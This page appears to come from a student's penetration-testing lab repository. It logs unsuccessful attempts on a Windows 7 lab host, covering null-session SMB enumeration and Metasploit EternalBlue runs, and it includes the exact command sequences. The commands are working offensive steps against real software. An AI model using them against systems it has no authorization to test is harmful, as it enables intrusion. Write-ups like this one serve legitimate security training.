





# Unfruitful attempts — `10.20.160.101` (CALLISTO)

Dead-end and **operator-error** lanes preserved for the report. Each subsection includes the **screenshot** captured at the time.

**Navigation:** [Host README](../README.md) · [Attack plan](../attack_plan/README.md) · [Screenshots folder](../Screenshots/) · [Work index](../../README.md)

---

## 1 — Null SMB / `enum4linux` (no go)

**Context:** After **`nmap`** showed **SMB** and **CrackMapExec** identified **Win7 SP1** with **signing off**, unauthenticated listing of shares/users was attempted.

| Attempt | Outcome |
|---------|---------|
| **`smbclient -L "//10.20.160.101" -N`** | “Anonymous login successful” but **no share list** — **SMB1 disabled — no workgroup available** |
| **`crackmapexec smb 10.20.160.101 --shares -u '' -p ''`** | **`STATUS_ACCESS_DENIED`** |
| **`enum4linux -a`** | **Workgroup JUPITER**, NetBIOS **CALLISTO** OK; then **`NT_STATUS_ACCESS_DENIED`** for domain SID, OS detail, users, share mapping, password policy (**polenum** / **NULL** attach), builtin/local/domain groups, RID cycling, printers |

**Takeaway:** **Null session** enumeration is **locked down** — need **credentials**, approved **SMB exploit** path, or **non-SMB** services (**HTTP 80**, **FTP 21**, **RDP 3389**, **MySQL 3306**).

### Evidence (embedded)







---

## 2 — Metasploit `ms17_010_eternalblue` — wrong target / wrong port (operator error)

| Mistake | Why it breaks |
|---------|----------------|
| **`RPORT 80`** | **EternalBlue** is **SMB** — use **`RPORT 445`**. **Port 80** is **HTTP** → **`Connection refused`** for SMB. |
| **`RHOSTS 10.20.150.101`** | Victim is **`10.20.160.101`**. **`10.20.150.*`** is often **Kali** side — verify **160** vs **150**. |
| **`ForceExploit`** | Only after **`check`** / **`nmap smb-vuln-ms17-010`** show real exploitability. |

**Correct shape (lab-authorized only):**

```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.20.160.101
set RPORT 445
set LHOST <KALI_LAB_IP>
check
run
```

### Evidence (embedded)




---

## 3 — MS17-010 — `check` / `run` **not vulnerable** (correct `RPORT 445`)

| Signal | Meaning |
|--------|---------|
| **`Connected to \\10.20.160.101\IPC$`** | **445** is correct; talking to real SMB stack. |
| **`STATUS_INVALID_HANDLE`** / **Host does NOT appear vulnerable** | Scanner treats **MS17-010** as **not exploitable** (patch / fingerprint). |


---

## 4 — MS17-010 — `ForceExploit true` (groom runs, **no shell**)


**Conclusion:** Treat **EternalBlue** as **closed** on this image unless the instructor provides a **known-vulnerable** snapshot. Pivot to **HTTP / FTP / RDP / credentialed SMB**.

---

## 5 — `STATUS_TRUSTED_RELATIONSHIP_FAILURE` on `run` (`0xc000018d`)

Separate from “wrong password”: domain / secure-channel class error on **`IPC$`** during **`ms17_010_eternalblue` `run`** — **no session**.



---

**Central index (all hosts):** [`../../unfruitful_attempts/README.md`](../../unfruitful_attempts/README.md)
